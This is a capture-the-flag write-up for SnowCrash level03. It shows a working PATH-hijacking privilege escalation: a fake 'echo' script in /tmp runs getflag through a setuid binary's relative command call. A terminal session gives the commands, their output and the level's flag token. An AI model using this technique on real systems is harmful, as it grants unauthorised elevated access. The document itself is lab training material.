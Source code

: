 Command strings on level03 shows that the command /usr/bin/env echo "Exploit me" is run inside the program
we can take advantage of the non absolute path to run another command like getflag at the first location in the $PATH

1) add /tmp to $PATH with : $export PATH=/tmp:$PATH

2) place a fake echo containing getflag in /tmp : $echo "getflag" > /tmp/echo

3) add execution rights : $chmod +x /tmp/echo

4) execute ./level03

getflag executed from /tmp gives the flag


doc : https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469


level03@SnowCrash:~$ ./level03 
Exploit me
level03@SnowCrash:~$ strings level03 | grep Exploit
/usr/bin/env echo Exploit me
level03@SnowCrash:~$ echo "getflag"> /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp/:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ 